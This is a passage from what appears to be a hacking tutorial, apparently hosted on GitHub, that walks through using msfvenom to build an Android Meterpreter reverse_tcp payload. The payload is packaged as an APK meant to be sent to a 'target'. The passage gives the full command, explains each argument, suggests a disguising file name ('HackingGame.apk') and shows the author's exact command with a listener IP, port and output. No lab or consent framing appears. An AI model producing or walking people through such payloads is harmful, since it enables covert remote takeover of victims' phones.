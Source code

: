 ```
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```
  
## Creating Our Payload  
Okay, we can clearly see that we can save our payload in multiple formats, and .apk (_which is the standard android file_) fits inside of our --payload options.  
So we will create a simple command for msfvenom that will allow us to create a Reverse TCP handshake against our target. Like this;  
```
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR_IP_HERE LPORT=ANY_PORT R> /var/www/Android_File_Name.apk/  
```
Let's break this command down;  
**1** *msfvenom* = We are starting a program called MSF Venom.  
**2** *-p* = We told the program that we are going to generate a payload.  
**3** *android* = We are instructing the program what type of payload we are looking for.  
**3.A** *meterpreter* = The program has been told to use the Meterpreter configurations.  
**3.B** *reverse_tcp* = And we will set the configurations to be a Reverse TCP.  
**4** *LHOST=* = We are setting the Hackers IP Address for the program to listen to.  
**4.A** *YOUR_IP_HERE* = This is where you set your own IP Address as mentioned in ifconfig.  
**5** *LPORT=* = We will be setting the Hackers desired Port for the program to listen on.  
**5.A** *ANY_PORT* = We can use any port, just not any common ones, or ones that are being use.  
**6** *R>* = This tells the program we will be writting it as a Raw Format.  
**7** */var/www/* = This will be the directory in which we store the APK file too.  
**7.A** *Android_File_Name.apk* = The name of our APK file to send to the target.  
**Please Note:** *You can change the name from "Android_File_Name.apk" to something you desire!*  
**Please Note #2:** *If saving the file directory to the /var/www gives issues, save it to your desktop and then copy/paste it to the folder.*  
Here is the exact command I used;  
```
$ sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.177 LPORT=4444 R> /home/cryptoh4ck3r/Desktop/HackingGame.apk  
[sudo] password for cryptoh4ck3r: 
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10238 bytes
```
  